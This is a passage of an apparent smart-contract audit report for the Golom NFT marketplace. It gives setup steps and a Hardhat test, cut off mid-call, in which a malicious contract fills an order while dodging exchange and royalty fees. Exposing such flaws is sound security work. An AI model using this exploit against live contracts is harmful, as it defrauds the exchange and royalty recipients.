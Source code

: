 *   Add following test in `test/GolomTrader.specs.ts` [here](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L390).
*   Also, add `const AvoidsFeesContractArtifacts = ethers.getContractFactory('AvoidsFeesContract');` after [this](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L14) line and `import { AvoidsFeesContract as AvoidsFeesContractTypes } from '../typechain/AvoidsFeesContract';` after [this](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L28) line.
*   Run `npx hardhat compile && npx hardhat test`

```
       it.only('should allow malicious contract to execute the trade while bypassing the fees', async () => {
            //deploy the malicious contract
            const avoidsFeesContract: AvoidsFeesContractTypes = (await (await AvoidsFeesContractArtifacts).deploy(golomTrader.address)) as AvoidsFeesContractTypes;

            //here the frontend calculates exchangeAmount and prePaymentAmt as a percentage of how much the make wants to receive for their NFT. 
            //as far as the frontend is concerned, the maker inputs 0 for their NFT value which in turn makes the exchangeAmount and prePaymentAmt 0 
            let exchangeAmount = ethers.utils.parseEther('0'); // nothing to the exchange
            let prePaymentAmt = ethers.utils.parseEther('0'); // no royalty cut
            let totalAmt = ethers.utils.parseEther('0');
            let tokenId = await testErc721.current();

            let nftValueThatMakerWants = ethers.utils.parseEther('10.25');

            const order = {
                collection: testErc721.address,
                tokenId: tokenId,
                signer: await maker.getAddress(),
                orderType: 0,
                totalAmt: totalAmt,
                exchange: { paymentAmt: exchangeAmount, paymentAddress: await exchange.getAddress() },
                prePayment: { paymentAmt: prePaymentAmt, paymentAddress: await prepay.getAddress() },
                isERC721: true,
                tokenAmt: 1,
                refererrAmt: 0,
                root: ethers.utils.hexZeroPad(nftValueThatMakerWants.toHexString(), 32), //convert Bignumber to bytes32
                reservedAddress: avoidsFeesContract.address,
                nonce: 0,
                deadline: Date.now() + 100000,
                r: '',
                s: '',
                v: 0,
            };

            let signature = (await maker._signTypedData(domain, types, order)).substring(2); //a valid signature as far as your frontend goes

            order.r = '0x' + signature.substring(0, 64);
            order.s = '0x' + signature.substring(64, 128);
            order.v = parseInt(signature.substring(128, 130), 16);

            let makerBalanceBefore = await ethers.provider.getBalance(await maker.getAddress());

            await avoidsFeesContract.connect(taker).fillAsk(
                order,
                1,
                '0x0000000000000000000000000000000000000000',
                {
```